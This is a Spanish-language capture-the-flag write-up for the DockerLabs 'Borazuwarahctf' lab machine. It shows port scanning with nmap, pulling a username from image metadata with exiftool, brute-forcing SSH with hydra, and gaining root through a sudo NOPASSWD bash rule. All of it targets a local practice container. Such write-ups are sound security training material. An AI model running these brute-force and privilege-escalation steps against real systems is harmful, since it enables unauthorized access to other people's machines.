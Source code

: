 ```yaml
---
icon: flag
---
```


# Borazuwarahctf DockerLabs (Very Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip borazuwarahctf.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh borazuwarahctf.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 12:27 EST
Nmap scan report for 172.17.0.2
Host is up (0.000027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.10 seconds
```

Si entramos en la pagina vemos simplemente una imagen de un `huevo kinder`, pero si realizamos `fuzzing` no encontraremos nada, si intentamos fuerza bruta con `hydra` tampoco veremos nada, por lo que vamos a ver si contiene `metadatos` importantes dicha imagen, por lo que vamos a descargarnos la imagen y utilizar una herramienta para sacar los `metadatos` de la imagen.

## exiftool

```shell
wget http://<IP>/imagen.jpeg
```

```shell
exiftool imagen.jpeg
```

Info:

```
ExifTool Version Number         : 13.00
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:05:28 12:10:18-04:00
File Access Date/Time           : 2025:02:06 12:31:55-05:00
File Inode Change Date/Time     : 2025:02:06 12:31:55-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

Por lo que vemos tenemos un usuario, por lo que probaremos a realizar fuerza bruta con dicho usuario.

## Escalate user borazuwarah

### Hydra

```shell
hydra -l borazuwarah -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-06 12:34:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-06 12:34:06
```

Por lo que vemos obtendremos las credenciales del usuario `borazuwarah` por lo que nos conectaremos por `ssh` de la siguiente forma:

### SSH

```shell
ssh borazuwarah@<IP>
```

Metemos como contraseña `123456` y veremos que estamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for borazuwarah on 7b08259878b6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on 7b08259878b6:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

Veremos que podremos ejecutar el binario `bash` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo bash
```

Info:

```
root@fd6a0da128a8:/home/borazuwarah# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
